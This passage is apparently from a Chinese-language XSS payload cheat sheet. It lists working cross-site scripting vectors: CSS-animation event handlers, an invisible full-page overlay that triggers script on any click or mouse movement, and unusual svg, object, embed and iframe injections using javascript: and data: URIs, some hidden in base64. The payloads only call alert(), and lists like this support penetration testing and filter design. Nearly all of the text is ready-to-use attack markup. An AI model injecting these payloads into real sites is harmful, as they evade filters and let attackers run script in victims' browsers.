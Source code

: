 
```html
<style>@keyframes x {}</style>
```


```html
<p style="animation: x;" onanimationstart="alert()">XSS</p>
```


```html
<p style="animation: x;" onanimationend="alert()">XSS</p>
```


Injects 一個看不見的覆蓋層
- 如果頁面上的任何地方被點擊，就會觸發一個 payload
 

```html
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
```


跟上面一樣，但只要頁面上任何地方移動 mouse 就會觸發 (`0-click-ish`):

```html
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```

----------------

## 奇怪的 XSS vectors
只是一些奇怪的/古怪的載體，我沒有看到經常提到：


```html
<svg><animate onbegin=alert() attributeName=x></svg>
```
```html
<object data="data:text/html,<script>alert(5)</script>">
```
```html
<iframe srcdoc="<svg onload=alert(4);>">
```
```html
<object data=javascript:alert(3)>
```
```html
<iframe src=javascript:alert(2)>
```
```html
<embed src=javascript:alert(1)>
```
```html
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
```
```html
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
```
